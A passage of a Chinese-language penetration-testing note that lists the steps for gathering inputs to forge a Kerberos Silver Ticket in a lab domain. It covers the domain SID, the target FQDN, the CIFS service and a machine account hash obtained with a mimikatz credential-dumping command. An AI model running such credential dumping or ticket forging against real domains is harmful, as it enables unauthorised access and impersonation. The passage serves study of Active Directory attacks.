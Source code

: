 #### 利用

**首先获取制作白银票据需要的信息**

①获取域名

`y5nekoad.com`

②获取域的SID

`S-1-5-21-1272869298-2579316034-2461789828`

③获取目标机器的FQDN（完整域名）

![image-20210916211547041](image/image-20210916211547041.png)

这里以域控为例，就是hostname＋域名：`SERVER2016DC.y5nekoad.com`

④获取目标上可利用的kerberos服务

以CIFS(磁盘共享的服务)为例

⑤server账号的hash（带$符号的hash）

```sh
mimikatz.exe privilege::debug sekurlsa::logonpasswords exit >> hash.txt
```

<img src="image/image-20210916214632527.png" alt="image-20210916214632527" style="zoom:67%;" />

这里以域控为例，即：`c728c6df22610a74aff69f2604017936`

⑥伪造用户

这里以域控的账户为例`SERVER2016DC$`

**获取到所有要用的信息后开始制作白银票据**

